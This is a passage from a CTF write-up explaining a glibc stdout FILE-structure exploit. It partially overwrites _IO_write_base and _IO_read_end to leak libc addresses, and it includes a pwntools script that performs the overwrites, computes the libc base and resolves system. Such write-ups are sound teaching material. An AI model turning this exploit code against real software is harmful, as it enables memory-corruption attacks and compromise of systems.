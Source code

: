 
Looks like it'll print out 0xe3 bytes of data from the new `_IO_write_base`, and surprisingly enough, once the LSB is set to 0, it will write out at least one libc address! This sounds like a good way to get an information leak!

# Information Leak

So to recap, our plan of attack for the information leak is as follows.

1. Overwrite the LSB of `_IO_write_base` to 0 to confuse `puts`. `puts` will think that `stdout` is buffered because `_IO_write_base != _IO_write_ptr`, but in reality there is no buffer.
2. Overwrite the LSB of `_IO_read_end` to 0 (to make it equal to `_IO_write_base` to bypass that `else if` branch in `new_do_write`).

This will then cause the next `puts` (the one that prints the menu)  to call `_IO_OVERFLOW` to flush our fake buffer. This will cause it to print out `_IO_write_ptr - _IO_write_base = 0xe3` bytes from the newly overwritten `_IO_write_base`, which leaks some libc addresses.

One side effect of overwriting the LSB of either `_IO_write_base` or `_IO_read_end` here is that the program becomes confused about the buffering of `stdout` and thus won't be outputting the menu or any of the options for us anymore. We have to account for this in our script. I ended up just having two separate functions, one for before we overwrite the fields, and one for after:

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"

elf  = ELF("./chall")
libc = ELF("./libc-2.27.so")
p    = process("./chall", env={"LD_PRELOAD": "./libc-2.27.so"})
#p    = remote("pwn-neko.chal.seccon.jp", 9003)
REMOTE = False

def create1(alloc_size, read_size, data):
        p.recv()
        p.sendline("1")
        p.recv()
        p.sendline(str(alloc_size))
        p.recv()
        p.sendline(str(read_size))
        p.recv()
        p.sendline(data)

def create2(alloc_size, read_size, data):
    p.sendline("1")
    p.sendline(str(alloc_size))
    p.sendline(str(read_size))
    p.sendline(data)

# Overwrite LSB of `_IO_read_end` in `stdout`
create1(0x200000, 0x5ed761, "A")

# Overwrite LSB of `_IO_write_base` in `stdout`
create2(0x200000, 0x5e6761 + 0x208010, "A")

# Have to recv for the remote, else it doesn't work???
if REMOTE:
    p.recv()

leak         = u64(p.recvline()[8:14].ljust(8, b'\x00'))
libc.address = leak - 0x3ed8b0
system       = libc.sym["system"]
```